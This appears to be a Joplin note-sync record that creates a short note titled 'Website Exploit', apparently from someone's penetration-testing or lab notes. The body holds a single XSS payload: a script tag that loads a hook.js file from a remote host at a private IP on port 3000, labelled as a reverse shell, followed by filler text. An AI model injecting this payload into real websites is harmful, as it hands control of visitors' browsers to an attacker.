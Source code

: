 id: 38c7f691acba46a59f668cc5d0a2d789
parent_id: 
item_type: 1
item_id: 1094d9f035074e3a8ef344a61a88cf5e
item_updated_time: 1643075445873
title_diff: "[{\"diffs\":[[1,\"Website Exploit\"]],\"start1\":0,\"start2\":0,\"length1\":0,\"length2\":15}]"
body_diff: "[{\"diffs\":[[1,\"# XSS\\\n\\\n## Reverse Shell\\\n\\\n> <script src=\\\"http://172.17.15.118:3000/hook.js\\\"></script>\\\n\\\ndfgdfg\\\n\\\ndfg\"]],\"start1\":0,\"start2\":0,\"length1\":0,\"length2\":97}]"
metadata_diff: {"new":{"id":"1094d9f035074e3a8ef344a61a88cf5e","parent_id":"8e7bd5349cf3494986eccd0619b576c9","latitude":"0.00000000","longitude":"0.00000000","altitude":"0.0000","author":"","source_url":"","is_todo":0,"todo_due":0,"todo_completed":0,"source":"joplin-desktop","source_application":"net.cozic.joplin-desktop","application_data":"","order":0,"markup_language":1,"is_shared":0,"share_id":"","conflict_original_id":"","master_key_id":""},"deleted":[]}
encryption_cipher_text: 
encryption_applied: 0
updated_time: 2022-01-25T01:57:04.678Z
created_time: 2022-01-25T01:57:04.678Z
type_: 13
